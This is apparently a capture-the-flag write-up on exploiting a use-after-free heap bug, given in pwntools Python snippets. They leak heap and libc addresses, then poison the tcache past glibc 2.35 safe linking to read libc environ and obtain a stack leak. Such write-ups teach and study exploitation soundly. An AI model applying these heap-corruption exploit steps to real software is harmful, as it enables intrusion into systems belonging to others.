 #### To leak our heap and LIBC addresses we will allocate three chunks in the following order.

```python
create(0x20, b'AAAA')   # Use the UAF to leak heap base
create(0x500, b'BBBB')  # Leak LIBC from unsorted bin
create(0x20, b'CCCC')   # Prevent the large chunk from joining top chunk
```

#### We will then free the first chunk and show it to leak the heap base.

```python
delete(0)

heap_base = u64(read(0).ljust(8, b'\x00')) << 12
info(f'heap base: {hex(heap_base)}')
```

#### Now we free the large chunk into the unsorted bin and get our LIBC leak.

```python
delete(1)

libc_leak = u64(read(1).ljust(8, b'\x00'))
info(f'libc leak: {hex(libc_leak)}')

libc.address = libc_leak - 0x219ce0
info(f'libc base: {hex(libc.address)}')
```

#### Now that we have a LIBC leak we can poison the tcache with a pointer to LIBC environ to get a stack leak. Due to this challenge using GLIBC 2.35 safe linking is enabled so we will have to account for that. 

```python
create(0x50, b'aaaa')
create(0x50, b'bbbb')

delete(3)
delete(4)

update(4, p64(heap_base >> 12 ^ (libc.symbols.environ-0x10)))

create(0x50, b'cccc')
create(0x50, b'd' * 0xf)

read(6)
stack_leak = u64(p.recvline()[:-1].ljust(8, b'\x00'))
info(f'stack leak: {hex(stack_leak)}')

saved_rbp = stack_leak - 0x128
info(f'saved rbp: {hex(saved_rbp)}')
```

